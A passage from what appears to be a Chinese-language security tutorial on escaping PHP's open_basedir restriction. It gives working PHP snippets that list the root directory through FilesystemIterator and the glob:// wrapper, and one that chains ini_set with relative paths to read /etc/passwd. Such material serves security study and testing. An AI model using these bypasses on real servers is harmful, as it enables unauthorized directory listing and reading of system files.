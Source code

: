 利用两次`DirectoryIterator类 + glob://协议`可以直接读取根目录的内容

[![](assets/1708675446-7cb2bd055d7fe9767d1c33c8f83707ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121008-43e8ddc4-d138-1.png)

#### FilesystemIterator 类 + glob://协议

我们上面也了解到了 FilesystemIterator 类和 DirectoryIterator 类作用一样，只是显示不太一样

```plain
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new FilesystemIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new FilesystemIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```

[![](assets/1708675446-6ff128c79264eeba1abb5231a3565a19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121024-4dcdac84-d138-1.png)

### 文件读取

#### ini\_set() + 相对路径

由于 open\_basedir 自身的问题，设置为相对路径`..`在解析的时候会致使自身向上跳转一层

因此多设置几次 ini\_set() 就可以跳转到根目录

```plain
<?php
    show_source(__FILE__);
    ini_get('open_basedir');

    mkdir('test');
    chdir('test');
    ini_set('open_basedir','..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir','/');

    echo file_get_contents('/etc/passwd'); 

?>
```
